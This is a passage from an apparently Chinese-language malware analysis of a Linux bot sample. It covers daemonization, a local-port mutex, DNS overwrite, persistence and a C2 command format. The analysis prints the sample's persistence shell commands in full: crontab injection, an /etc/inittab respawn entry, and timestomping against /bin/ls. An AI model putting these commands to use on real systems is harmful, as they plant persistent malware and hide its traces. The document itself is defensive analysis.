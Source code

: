 1. 调用setpriority函数设置进程谦让度为0。
2. 将该进程设置为守护进程。

    ![][5]

3. 在127.0.0.1本地监听一个随机的端口，作为后续的互斥锁。

    ![][6]

4. 执行命令`echo "nameserver 8.8.8.8" > /etc/resolv.conf &`。
5. 随机strcpy以下某个字符串至argv[0]。

    ![][7]

## 自启动设置

1. 查看对目录`/dev/shm/`、`/var/tmp/`、`/tmp/`、`/var/lock/`、`/var/run/`是否有可写入权限。这里我以`/w_ok/`代指一下。
2. 如果存在`/bin/crontab`文件则执行如下命令，说白了就是配合上面的本地监听sock保证样本一直运行。

        {% highlight bash %}
        chmod 700 /path/muhstiki386 > /dev/null 2>&1 &
        touch -acmr /bin/ls /path/muhstiki386 #需要root权限
        (crontab -l | grep -v "/path/muhstiki386" | grep -v "no cron" | grep -v "lesshts/run.sh" > /w_ok/.x00%u) > /dev/null 2>&1 #%u为随机的unsigned int
        echo "* * * * * /path/muhstiki386 > /dev/null 2>&1 &" >> /w_ok/.x00%u
        crontab /w_ok/.x00%u
        rm -rf /w_ok/.x00%u
        {% endhighlight %}

3. 如果是root权限，则执行如下命令，使样本进程在终止后重新启动进程。

        {% highlight bash %}
        cat /etc/inittab | grep -v "/path/muhstiki386" > /etc/inittab2
        echo "0:2345:respawn: /path/muhstiki386" >> /etc/inittab2
        cat /etc/inittab2 > /etc/inittab
        rm -rf /etc/inittab2
        touch -acmr /bin/ls /etc/inittab
        {% endhighlight %}

4. 如果存在` /etc/rc.local `或` /etc/rc.conf `文件可读，则向其追加`/path/muhstiki386`，可是这些文件一般是以`exit 0`结束的，开发者理解水平不够呀。

    ![][8]

## 接收指令

1. 样本会随机连接以下的某个ip地址的9090端口，如果连接时间超过9秒则再随机选取ip地址。

    ![][9]

2. 连接上ip地址后，select的timeout时间设置为1200秒。被控端样本会拆分主控端传来的指令调用对应命令的函数指针，每条命令以'\n'分割，格式为':arg1 cmd arg2'，或者'cmd arg2' arg1默认为'*'。但在分割参数时使用`strcpy(k, &k[l + 1])`的方法不敢苟同。

    ![][10]


[1]: http://ojyzyrhpd.bkt.clouddn.com/20171219/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20171219/2.png
[3]: http://ojyzyrhpd.bkt.clouddn.com/20171219/3.png
[4]: http://ojyzyrhpd.bkt.clouddn.com/20171219/4.png
[5]: http://ojyzyrhpd.bkt.clouddn.com/20171219/5.png
[6]: http://ojyzyrhpd.bkt.clouddn.com/20171219/6.png
[7]: http://ojyzyrhpd.bkt.clouddn.com/20171219/7.png
[8]: http://ojyzyrhpd.bkt.clouddn.com/20171219/8.png
[9]: http://ojyzyrhpd.bkt.clouddn.com/20171219/9.png
[10]: http://ojyzyrhpd.bkt.clouddn.com/20171219/10.png
[11]: http://ojyzyrhpd.bkt.clouddn.com/20171219/11.png
[12]: http://ojyzyrhpd.bkt.clouddn.com/20171219/12.png
[13]: http://ojyzyrhpd.bkt.clouddn.com/20171219/13.png
[14]: http://ojyzyrhpd.bkt.clouddn.com/20171219/14.png
[15]: http://ojyzyrhpd.bkt.clouddn.com/20171219/15.png
[16]: http://ojyzyrhpd.bkt.clouddn.com/20171219/16.png
[17]: http://ojyzyrhpd.bkt.clouddn.com/20171219/17.png
[18]: http://ojyzyrhpd.bkt.clouddn.com/20171219/18.png
[19]: http://ojyzyrhpd.bkt.clouddn.com/20171219/19.png
[20]: http://ojyzyrhpd.bkt.clouddn.com/20171219/20.png
[21]: http://ojyzyrhpd.bkt.clouddn.com/20171219/21.png
[22]: http://ojyzyrhpd.bkt.clouddn.com/20171219/22.png
[23]: http://ojyzyrhpd.bkt.clouddn.com/20171219/23.png
[24]: http://ojyzyrhpd.bkt.clouddn.com/20171219/24.png
[25]: http://ojyzyrhpd.bkt.clouddn.com/20171219/25.png
[26]: http://ojyzyrhpd.bkt.clouddn.com/20171219/26.png